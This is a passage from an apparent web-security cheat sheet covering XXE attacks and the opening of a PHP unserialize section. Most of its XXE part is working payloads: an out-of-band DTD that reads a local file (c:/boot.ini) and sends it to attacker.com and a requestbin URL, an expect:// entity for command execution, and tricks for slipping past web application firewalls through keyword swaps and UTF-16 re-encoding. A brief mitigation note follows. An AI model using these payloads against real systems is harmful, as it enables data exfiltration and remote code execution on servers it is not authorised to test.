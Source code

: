 XXE Out of Bounds attack (XXE OOB) - Sending the response/data to your own server as output doesn't show on site.  
  ```xml
  <!DOCTYPE data [
    <!ENTITY dtd SYSTEM "https://attacker.com/evil.dtd">
    &dtd; 
  ]>
  <data>&send;</data>
  ```
  ```xml
  <!ENTITY % file SYSTEM "file:///c:/boot.ini">
  <!ENTITY % all "<!ENTITY send SYSTEM 'https://requestbin.fullcontact.com/1cxrgsm1/?%file;'>">
  &all;
  ```

**Exploitation: PHP-based** 

RCE (expect:// - Process Interaction Stream)  
  `<!ENTITY xxe SYSTEM "expect://id">`

PHP Filters  
  ```xml
  file:// — Accessing local filesystem
  http:// — Accessing HTTP(s) URLs
  ftp:// — Accessing FTP(s) URLs
  php:// — Accessing various I/O streams
  data:// — Data (RFC 2397)
  glob:// — Find pathnames matching pattern
  ssh2:// — Secure Shell 2
  ```  

**Exploitation: Other Tricks**

_WAF_: Use `PUBLIC` if `SYSTEM` is blocked.  
_Encoding_: Change encoding e.g. UTF-8 -> UTF-16 `<?xml version="1.0" encoding="UTF-16"?>`.  
^Use `cat file.xml | iconv -f UTF-8 -t UTF-16 > file_utf16.xml` to convert to UTF-16.  

**Mitigation**

IF POSSIBLE: Disable DTD's (`<!DOCTYPE x [ ]>`).  
ELSE: Disallow loading XML external entities (entities with queries to external resources).  


## PHP Un-serialize
---

**Summary**  

Allows an attacker to perform _code / sql injection_, _path traversal_ and _denial of service_ attacks due to user-input not being properly sanitised before being passed to the `unseralize()` PHP function. (OWASP)

Since PHP allows object serialisation, attackers can pass in a malicious string to a vulnerable `unserialize()` call, resulting in arbitrary PHP object injection.  

_See more_: <a href="https://www.owasp.org/index.php/PHP_Object_Injection">PHP Object Injection</a>  
_PHP Magic Methods_: http://php.net/manual/en/language.oop5.magic.php  
